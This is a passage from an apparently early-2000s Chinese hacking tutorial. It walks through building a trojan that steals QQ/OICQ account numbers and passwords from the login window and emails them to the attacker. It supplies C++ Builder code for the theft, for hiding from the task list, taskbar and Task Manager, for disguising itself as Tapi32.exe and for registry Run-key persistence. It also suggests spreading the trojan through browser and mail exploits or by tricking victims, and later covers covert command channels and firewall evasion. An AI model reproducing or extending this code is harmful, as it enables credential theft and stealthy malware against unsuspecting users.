办事要抓主要矛盾，我们先来编写程序的主体部分，也就是密码截获部分。编程之前我们先来看看 OICQ 登陆窗口的组成元素，如图 2-8 所示。



图 2-8

其中，对我们有用的主要有三点，即窗口标题（这是我们判断的入口点）、一个选择号码的 ComboBox（取得账户）、一个供输入密码的 Edit（我们从这里截获密码）。密码截获的原理是：让我们的程序在后台监视（设置一个 Timer），调用 FindWindow 函数来获得指定窗口标题为“QQ 用户登录”的窗口句柄，接着利用 GetWindow 函数来依次获得 ComboBox 和 Edit 的句柄，然后再调用 GetClassName 函数来获得它们的类名，有了类名我们就可以用 SendMessage 来获得 ComboBox 和 Edit 中的值，也就是账户和密码了，将其保存到一个文件中，最后通过 NMSMTP 控件，将密码文件发送到指定的邮箱中去。

下面就开始吧。

选择菜单 File | New Application，创建一个新项目文件，先在窗体 Form1 上加入一个 Timer 和一个 NMSMTP 控件。设置 Timer1 的 Interval 属性为 1000（即 1 秒钟截获一次，为了提高监视的密度，尽量设置小点），由于我们所做的动作都在这个 Timer 的控制之下，所以，双击 Timer 控件的 OnTimer 事件，敲入以下代码：

```csharp
HWND hCurWindow;
// 窗口句柄
if ((hCurWindow = FindWindow(NULL, "QQ 用户登录")) != 0 || (hCurWindow = FindWindow(NULL, "OICQ 用户登录")) != 0)
    // 调用 API 查找标题为“QQ 用户登录”或者是“OICQ 用户登录”的窗口，并获得它的句柄。
    GetPassword(hCurWindow);
// 如果找到有 OICQ 登录窗口的话，就跳到我们定义的函数 GetPassword(hCurWindow) 中去，进行账户、密码截获动作。
```

### 编程解析精粹

如何获得号码和密码呢？大家知道，旧版本的OICQ 的密码框并没有进行特别的处理，我们马上就想到了SendMessage函数。不错，我们可以通过 SendMessage 给密码框发送 WM_GETTEXT 取得其中的值，单单是利用这一点就可以完成密码的截取工作。以下便是我们定义的GetPassword(hCurWindow)函数的关键代码：

```
cpp
TForm1::GetPassword(HWND QQLogin)
{
//……省略n行变量定义……
HC=GetWindow(QQLogin, GW_CHILD);
//HC获得了ComboBox的句柄。
HE=GetWindow(HC, GW_HWNDNEXT);
//HE获得了Edit的句柄。
GetClassName(HE, wClassName, sizeof(wClassName));
//得到类名。
....
txtlen = SendMessage(HC, WM_GETTEXTLENGTH,0,0);
//得到号码长度。
txtlen = SendMessage(HC, WM_GETTEXT,txtlen+1,(long) qqnumber);
//得到ComboBox选定的OICQ号码。
txtlen = SendMessage(HE, WM_GETTEXTLENGTH,0,0);
//获得密码的长度。
txtlen = SendMessage(HE, WM_GETTEXT,txtlen+1,(long) password);
//获得密码值。
file=FileCreate("文件路径");
//建立存放密码的文件。
}
```

这样，就可以将qqnumber和password写到指定的文件里去，完成密码的截获工作。

现在说说密码保存文件的名称和路径问题。文件路径一般设置为C盘，但文件名就要讲究欺骗性和隐秘性了，大家看看图2-9笔者生成的MSDOS..SYS这个文件如何？与真正的MSDOS.SYS是不是很像？多了一个小点，别弄乱了，最危险的地方往往就是最安全的地方。



图2-9

接下来便是远程发送的问题了。将截获到的密码发送到我们指定的邮箱中去，这个重任就交给NMSMTP 控件来完成了。可以设置满足一定的条件时就将密码文件“MSDOS..SYS”发送到你的邮箱里，比如隔几天发送一次或者收集满100个号就送一次等等。

```
if (NMSMTP1->Connected) NMSMTP1->Disconnect ();
//如果SMTP服务器已连接则断开
NMSMTP1->Connect ();
//然后再连接。
NMSMTP1->Host = "填入SMTP服务器";
//选一个好用点的SMTP服务器,如smtp.163.net等
NMSMTP1->UserID = "";
//你SMTP的ID
```

选中NMSMTP1控件，在“属性”项里展开PostMessage项，设置关键项：

+   FromAddress: 填入受害者的Email地址。
+   FromName: 填入受害者的名字。
+   ToAddress: 你指定的邮箱，密码文件就是要发送到这个邮箱中去。
+   Body: 信的内容，这个可以随便你了。
+   Attachments: 邮件附件的路径，这个一定要准确，否则功亏一篑!
+   Subject: 信的主题，比如“截获到密码啦!”等等。

最后，别忘了在代码里加入NMSMTP1-> SendMail();发送邮件。
至此，木马的主体基本实现。接下来看看如何伪装我们这匹马吧。

#### 二、伪装策略部分

木马是一种不合法的程序，要尽可能地隐藏自己的行踪，必须讲究伪装策略，现在遇到了很多问题，我们一个一个地来解决。

### 问题1：如何在运行的时候隐藏自己?

这是每一种木马程序所要解决的第一个问题。隐藏的方法有很多，对于Windows 9X而言，把程序从Ctrl+Alt+Del 对话框中隐藏的一个简单办法是去掉应用程序的标题。一个程序的主窗口没有标题，Windows95是不会把它放到 Ctrl+Alt+Del 对话框中的，这种方法太简陋了，大家也可以试试!这里想借用一下冰河的隐藏思想——调用RegisterServiceProcess API 函数将程序注册成为一个服务模式程序。这是一种后台进程，它可以运行在较高的优先级下，不会出现在程序列表中。

我们先在头文件中声明这个函数，代码如下:

```
typedef DWORD (__stdcall *pRegFunction)(DWORD, DWORD);
//定义RegisterServiceProcess()函数的原型
class TForm1 : public TForm
{
__published:
TButton *Button1;
private:
HINSTANCE hKernelLib;
pRegFunction RegisterServiceProcess;
public:
__fastcall TForm1(TComponent* Owner);
__fastcall ~TForm1();
};
```

接着便可以在相应的cpp文件中使用了，下面是使用的代码：

```
#define RSP_SIMPLE_SERVICE 1
#define RSP_UNREGISTER_SERVICE 0
__fastcall TForm1::TForm1(TComponent* Owner)
: TForm(Owner)
{
hKernelLib = LoadLibrary("kernel32.dll");
// 加载动态链接库 KERNEL32.DLL
if(hKernelLib)
{
RegisterServiceProcess = (pRegFunction)GetProcAddress(hKernelLib,
"RegisterServiceProcess");
// 得到 RegisterServiceProcess()函数地址
if(RegisterServiceProcess)
RegisterServiceProcess(GetCurrentProcessId(), RSP_SIMPLE_SERVICE);
}
}
__fastcall TForm1::~TForm1()
{
if(hKernelLib)
{
if(RegisterServiceProcess)
RegisterServiceProcess(GetCurrentProcessId(), RSP_UNREGISTER_SERVICE);
FreeLibrary(hKernelLib);
// 卸载动态链接库
}
}
```

如此处理后，我们的程序便可以在“程序列表”中隐藏了，大家不妨编译、连接一下看看结果。如图2-10所示，先运行程序Project1，然后再按下Ctrl+Alt+Del组合键看看，在“关闭程序”列表框中是看不到程序踪影的哦。



图2-10

##### 问题2：如何在任务栏中隐藏？

从上图中你会发现，程序编到此运行的时候，屏幕底部的任务栏里出现了我们的程序“Project1”。那不是“此地无银三百两”吗？此乃木马之大忌！下面我们就来解决这个问题吧。调用API函数 SetWindowLong 可以让程序运行后不出现在任务栏里，实现方法如下：在“对象查看器”的“Events”项里，双击“OnCreate”项，添加Form1的创建事件，在函数里键入以下代码：

```
SetWindowLong(Application->Handle,GWL_EXSTYLE,WS_EX_TOOLWINDOW);
```

此时，我们的程序就不会出现在任务栏里了。

##### 问题3：如何让程序不显示窗口？

接下来我们进一步伪装，让程序运行的时候不显示窗体。要不显示窗体，必须编辑WinMain函数。设置ShowMainForm值为False就可以在屏幕上隐藏窗体。请点击Project->View Source,在Project1的WINAPI WinMain里面加入下面一行代码（加入到try{}里面）：

```
Application->ShowMainForm = false;
```

至此，在Windows 9X下双击程序，表面上毫无反应，实际上程序已经在后台运行着！是不是有点成就感了？别急，接着往下看。

### 问题4：在windows 2000/XP中如何隐藏？

以上仅仅针对Windows 9X 而言，要在Win 2000/XP 中的“任务管理器”中隐身可要另作一番手脚了，可以在注册表里的 HKEY_LOCAL_MACHINE\ SOFTWARE\Microsoft\Windows NT\ CurrentVersion\Windows键下添加如下键值“AppInit_DLLs” = “Project1.dll”，就是把我们的Project1.dll注册为系统启动时必须加载的模块，这就得把木马编译成DLL。下次开机时，木马便以动态链接库的形式被加载，存在于系统进程中。因为没有它自己的PID（Process ID 进程识别号），所以在NT的任务管理器中看不见它，达到了隐藏的目的（但仍有被发现的可能）。

##### 问题5：如何选一个好图标和起一个好名字？

这一步同样是很重要的，别人上不上钩就全靠这一步了！一个有诱惑性的图标和程序名字可以使你使用起来得心应手。大家还记得在system32里面有个Tapi32.dll的文件吗？在此，笔者将我们这匹马起名为 Tapi32.exe，呵呵~~浑水摸鱼哦！

##### 问题6：如何将自身拷贝到隐秘的地方？

木马第一次进入计算机，初来乍到，何不找个地方避避风险？木马常用的一招就是在运行后将自身拷贝到系统目录下，因为那里的文件最多，一般人都不会去那里闲逛的，在那里安家才最安全！因此，我们要先获得系统所在的路径：

```
char SysPath[255];
// 定义一个字符数组，用于得到System 的路径，其中255 是路径字符串的长度。
GetSystemDirectory( SysPath,255);
// 掉用 API，得到了 %System% 所在的路径了。
AnsiString TempPath;
// 定义一个 AnsiString 类型的变量。
TempPath=AnsiString(SysPath);
// 格式化 SysPath 字符串，使之成为能供编译器使用的样式
CopyFile(ParamStr(0).c_str(), AnsiString(TempPath+"\Tapi32.exe").c_str(), FALSE);
// 将程序自身拷贝到 %System% 目录里藏起来，方便以后的运行，嘿嘿~~
```

这时你再编译连接看看，如图2-11所示。在System32目录里是不是多了一个Tapi32.exe呀？什么？图标很醒目？你换个好图标不就得了？



图2-11

##### 问题7：以后如何运行我们的木马？

编到这里，我们的木马已经隐藏在系统的System32里了，隐藏是木马的第一要素，那么第二要素就是启动了。我们当然希望用户每次启动计算机的时候都自动运行木马了（晕~~难道还要用户点击木马图标来运行吗）。为了达到这个目的，我们可以从各个方面全方位进攻（win.int、system.ini、启动组、注册表等等），这里只介绍利用注册表启动的方法。首先我们要获得系统所在的路径，可以在 FormCreate里加入：

```
TRegistry* Registry;
Registry = new TRegistry();
// 定义一个TRegistry对象，以便修改注册表
try
{
Registry->RootKey = HKEY_LOCAL_MACHINE;
// 设置主键为HKEY_LOCAL_MACHINE
if(Registry->OpenKey("Software\Microsoft\ Windows\CurrentVersion\Run",FALSE))
// 试着打开键值“Software\Microsoft\Windows\ CurrentVersion\Run”，如果不存在，就在else语句中创建它。
Registry->WriteString("StartUp1",TempPath+"\Tapi32.exe");
// 向注册表写信息，创建键名为StartUp1的键，程序所在的路径为SysPath。
else // 如果打开失败，则新建一个键，并写入上面的内容！
{
Registry->CreateKey("Software\Microsoft\Windows\CurrentVersion\Run");
Registry->WriteString("StartUp1",TempPath+"\Tapi32.exe");
}
}
catch(...)
{
// 如果有错，则什么也不做，避免程序崩溃。
}
```

完成这一步，程序就自动添加到注册表的Run键下，以后每次启动计算机，木马都将自动运行！笔者编译后的截图如图2-12所示。



图2-12

##### 问题8：木马如何入侵计算机？

这是最后一个问题，相信不用我多说，聪明的读者早已想出妙计了。微软IE的MIME头漏洞不是很流行吗？放到主页的空间上让人浏览；还有OE漏洞，稍加几行script代码，作为附件发封E-Mail给他（她）便可得逞！大家可以看看《黑客防线》2002年第5期里的《木马就这样进入你的计算机》，该文总结了木马入侵计算机的13种罪行，肯定对你有所启发的。如果实在不行，那就给嘴巴多抹点油，用你那可以将稻草说成是金条的口才骗各位美女帅哥运行好了：（，死缠烂打行，苦苦哀求也行!请君自便。

至此，问题解决得差不多了，一个简单的木马编写工作已全部完成（终于可以松口气了，呼呼~~~）。如果你以为木马程序也不过如此的话，那就大错特错了，真正功能完善的木马编起来问题还多着呢!像广外女生那么优秀的木马，可以杀掉防火墙和杀毒软件的进程，它启动后立即分析当前进程，查找有没有常见防火墙和杀毒软件的进程，如果有就杀无赦!并且杀掉后，在特定的内存地址中作一个标记，使它们误以为自己已启动，不会再次启动了。还有控制、传送文件功能等等都很复杂。

总结：程序编写完了，我们来总结一下这个程序的不足之处吧。

- 1、没有加入远程控制的功能。大家可以在此代码的基础上加以扩充。只要在服务端程序上添加Internet页中的Server Socket控件和在客户端程序上加入ClientSocket控件即可：Server Socket控件用于在服务端打开一个服务端口（建议使用1024以上的端口，以免与系统引起冲突），监听并响应客户端传来的请求；而ClientSocket控件则负责向服务端连接，与服务端进行通信。巧妙地编辑这两个控件，实现简单的远程控制功能，工程不是很庞大的。

- 2、密码截获部分，由于没有作特殊的处理，只能在Windows 9X下有效，在Windows 2000/XP下是行不通的，这要用到DLL注入进程的办法，因为系统做出了防范对策。系统是这样防范的：系统判断出你是想取出密码框中的密码是否在别的进程中，如果是在其他进程中的话，那么这个函数调用就会失败。所以到了Windows2000/XP下就失效了。意思就是说，如果在调用这个函数的地方和要取的密码框在同一个进程里的话就可以成功了。因此很自然地想到进入目标进程后再调用这个函数。怎么进入目标进程？其实也很简单的，用个全局鼠标钩子就可以了。理由是：能取密码的地方窗口肯定是可见的，所以肯定能接收鼠标消息，这样，只要鼠标从它上面划过，就让我们的DLL进入目标进程。然后，在鼠标钩子的钩子函数中，调用一个API就可以很方便地得到鼠标的位置，而且这个钩子函数是在DLL里的，已经进入了目标进程，所以，这时调用SendMessage函数仍然是可以取出密码的。

- 3、程序没有加入杀死进程的功能。所谓正邪不两立，木马与杀毒程序是不能同在的!应该在程序启动后就立即分析并杀死正在运行着的杀毒程序的进程，并使它们以后再也运行不起来。

- 4、自启动方法简单，很容易暴露马脚。应该从各个角度去实现自启动，特别是与文件建立关联，使得机主一运行某种文件就启动我们的木马程序。

- 5、隐身方法有不足！本程序在Windows 98 下可以做到无影无踪，但在Windows2000/XP 的“进程管理器”下就原形毕露了:(，应该DLL注入的方法，将自身注入到别的进程中去，达到隐藏的目的。

- 6、为了实现在后台不断地监控，在本程序中使用了“定时触发器”Timer控件，这会占用许多系统资源，在配置不是很高的机器上运行很容易被发现。

本节的写作目的仅是介绍一些比较菜的木马编程技巧，以便大家更好地了解木马的构成，并不是教你如何去害人，希望能够抛砖引玉。同时，笔者只介绍关键的部分，特意隐去了几行代码。

## 2.7 木马，是如何隐藏通讯方式的

木马的客户端与服务端的通讯必须可靠且不易为宿主发现，这个过程实现的好坏与否，直接关系着木马的隐蔽性和可靠性。为此，木马开发者们绞尽脑汁，想出种种办法来迷惑我们，而作为普通用户的我们更有必要了解木马的这些隐蔽通讯方式，以便在查杀木马时做到有的放矢，找准切入点。下面是我所知道的木马客户端与服务端隐蔽通讯的种种方法，与大家交流。

首先应该明确的是，受害者的机器上运行的木马程序我们称之为服务端，控制者机器上运行的我们称之为客户端（其实对于现代的木马，已经很难说谁是客户，谁是服务了，不过我们还是继续用这种叫法）。另外，虽然Windows 9x仍然有巨大的用户基础，但是Windows 9x向Windows XP过渡只是时间问题，所以这里的讨论主要是针对Windows NT/2000/XP平台的。

#### 一、基本概念

木马程序的服务器端，为了避免被发现，多数都要进行隐藏处理，下面让我们来看看木马是如何实现隐藏的。首先我们先来了解3个相关的概念：进程，线程和服务。关于这3个概念简单解释如下：

进程：所谓进程就是应用程序的执行实例（或称是一个执行程序）。一个正常的Windows应用程序运行之后，都会在系统之中产生一个进程。同时，每个进程分别对应一个不同的PID（Progress ID，进程标识符），这个进程会被系统分配一个虚拟的内存空间地址段，一切相关的程序操作，都会在这个虚拟的空间中进行。

进程与我们经常说到的程序是有着本质的区别。进程是程序动态的描述，而程序是静态的描述。举个例子，从网上下载一个.exe文件到硬盘上，那个.exe文件就叫做程序，这是一个二进制码的文件。一旦双击了exe文件图标运行程序，那个正在运行着的exe文件则称为进程，它在双击的那一刻被系统创建，当你关机或者在任务栏的图标上单击鼠标右键选“退出”时，进程便消亡，彻底结束了生命。进程经历了由“创建”到“消亡”的生命期，而程序自始至终在你的硬盘上，不管你的机器是否启动。

线程：线程是进程中的一个执行单元，同一个进程中的各个线程对应于一组CPU指令、一组CPU寄存器以及一堆栈。一个进程，可以存在一个或多个线程，线程之间同步执行多种操作；一般说来，线程之间是相互独立的，当一个线程发生错误的时候，并不一定会导致整个进程的崩溃。

服务：一个进程当以服务的方式工作的时候，它将会在后台工作，不会出现在任务列表中。但是，在Windows NT/2000下，你仍然可以通过服务管理器检查任何的服务程序是否被启动运行。

想要隐藏木马的服务器端，可以伪隐藏，也可以是真隐藏。伪隐藏，就是指程序的进程仍然存在，只不过是让它消失在进程列表里。真隐藏则是让程序彻底消失，不以一个进程或者服务的方式工作。

伪隐藏的方法是比较容易实现的，只要把木马服务器端的程序注册为一个服务就可以了。这样，程序就会从任务列表中消失了，因为系统不认为它是一个进程，当按下Ctrl+Alt+Delete的时候，也就看不到这个程序。但是，这种方法只适用于Windows 9x系统，对于Windows NT/2000等，通过服务管理器，一样会发现你在系统中注册过的服务。难道伪隐藏的方法就真的不能用在Windows NT/2000下了吗？当然还有办法，那就是API的拦截技术，通过建立一个后台的系统钩子，拦截PSAPI的EnumProcessModules等## 相关的函数来实现对进程和服务的遍历调用的控制，当检测到进程ID（PID）为木马程序的服务器端进程的时候直接跳过，这样就实现了进程的隐藏。金山词霸等软件，就是使用了类似的方法，拦截了TextOutA，TextOutW函数，来截获屏幕输出，实现即时翻译的。同样，这种方法也可以用在进程隐藏上。

当进程为真隐藏的时候，那么，这个木马的服务器部分程序运行之后，就不应该具备一般进程，也不应该具备服务，也就是说，完全融进了系统的内核。也许你会觉得奇怪，刚刚不是说一个应用程序运行之后，一定会产生一个进程吗？的确，所以我们可以不把它做成一个应用程序，而把它做为一个线程，一个其他应用程序的线程，把自身注入其他应用程序的地址空间。而这个应用程序对于系统来说，是一个绝对安全的程序，这样，就达到了彻底隐藏的效果，导致了查杀黑客程序难度的增加。

#### 二、具体方法

下面是木马客户端与服务端经常采用的隐藏通讯方法：

- 1.使用TCP协议，服务端侦听，客户端连接

这是最简单、最早、最广泛使用的一种通讯方案。使用过冰河或者被冰河客户端扫过的用户对此一定不会陌生。这种通讯方案是服务端在宿主机器上开一个TCP端口，然后等待客户端的连接，在通过对客户端的认证后，客户端就可以控制服务端了。采用这种方法通常是利用 Winsock与目标机的指定端口建立起连接，使用send和recv等API进行数据的传递。

由于是建立在TCP协议基础上，所以通讯的可靠性是得到保证的，但是通讯的安全性却很成问题。由于这种方法的隐蔽性比较差，往往容易被一些工具软件查看到，最简单的，比如在命令行状态下使用netstat命令，就可以查看到当前的活动TCP，UDP连接。另外，使用像Fport，Tcpview Pro这样的工具可以很容易的发现在某一端口上侦听的进程以及进程对应的可执行文件。最后一个问题：在安装了防火墙的机器上，当客户端连接到服务端时，很容易引起防火墙报警。

尽管存在这么多的问题，黑客们还是对此方法趋之若鹜。因为采用该方法编制木马程序实在是太简单了，而且还可以采用种种手段躲避这种侦察。就我所知的方法大概有两种。一种是合并端口法。也就是说，使用特殊的手段，在一个端口上同时绑定两个TCP或者UDP连接。这听起来不可思议，但事实上确实如此；而且已经出现了使用类似方法的程序，通过把自己的木马端口绑定于特定的服务端口之上（比如80端口的HTTP，谁怀疑他会是木马程序呢？），从而达到隐藏端口的目地。还有一种方法是使用ICMP（Internet Control Message Protocol）协议进行数据的发送，原理是修改ICMP头的构造，加入木马的控制字段。这样的木马，具备很多新的特点，不占用端口的特点，使用户难以发觉。同时，使用ICMP可以穿透一些防火墙，从而增加了防范的难度。之所以具有这种特点，是因为ICMP不同于TCP，UDP，ICMP工作于网络的应用层不使用TCP协议。

- 2.使用TCP协议，客户端侦听，服务端连接

这就是所谓的反向连接技术了。为了克服服务端在某一端口上侦听易被发现这一缺点，现在服务端不再侦听端口，而是去连接客户端在侦听的某一端口。这样用一般的Port Scanner或者Fport就很发现不了服务端了。而为了更好地麻痹宿主机，客户端侦听的端口一般是21,80,23这种任何人都要访问的端口。虽然在安装了防火墙的机器上，服务端去连接客户端还是要引起防火墙报警，但是一个粗心的用户很可能会忽略“应用程序xxxxx试图访问xxx.xxx.xxx.xxx通过端口80”这样的警告。

这种反向连接技术要解决的一个问题是，服务端如何找到客户端。由于一般客户端都是拨号上网的，没有一个固定的IP，所以客户端IP不可能硬编码在服务端程序中。当然，由于拨号上网用户的IP一般都是处于一个固定的IP地址范围内，服务端也可以扫描这个范围，然后根据被扫描主机的反馈来确定是否是自己的客户端，但是服务端扫描一个IP地址范围也太……另一个方法是客户端通过一个有固定IP或者固定域名的第三方发布自己的IP，实现的方法就很多了，比如通过一个公共的邮箱，通过一个个人主页，就看你有多大的想像力。

### 3. 使用UDP协议，服务端侦听，客户端连接；客户端侦听，服务端连接

方法和安全性与使用TCP协议差不多。需要注意的是UDP不是一个可靠的协议（QQ用的就是UDP协议，所以针对QQ的攻击方法和黑客软件才会那么多），所以，要想不被发现，黑客必须在UDP协议的基础上设计一个自己的可靠的报文传递协议，这就看其编程的功力如何了。

### 4. 解决防火墙问题

无论是服务端被动侦听，还是服务端主动连接，在服务端和客户端试图建立连接时都会引起防火墙的报警。毕竟粗心的用户不会很多，所以，解决防火墙报警是服务端必须要解决的一个问题。一种方法是代码注入，服务端将自己注入到一个可以合法的与外界进行网络通讯的进程（比如 IE, ICQ, OICQ, TELNTED, FTPD, IIS等）的地址空间中，然后可以一个新线程的形式运行，或者只是修改宿主进程，截获宿主进程的网络系统调用(WinSock)。后者的实现可能要麻烦一些。如果是以新线程的形式运行，那么，或者可以被动侦听，或者可以主动连接。

无论哪种情况都不会引起防火墙的报警（当然不是100%不会引起防火墙报警，否则就成为“金刚不坏之身”了，那怎么可能呢）。但要注意的是如果是被动侦听的话，比如寄生在IE内，用Fport会发现IE在某一个端口侦听，这有可能会引起细心的用户的警觉。所以比较好的方法是在新线程内去主动连接客户端，而且连的是客户端的80端口；如果是寄生在OICQ内，可以连接客户端的8000端口。使用代码注入需要服务端具有若干特权，考虑到一般用户都是以Admin身份启动NT的，这应该不是一个问题(如果服务端是作为一个Service启动的话，就更没问题了)。

### 5. 服务端主动连接时客户端IP的问题

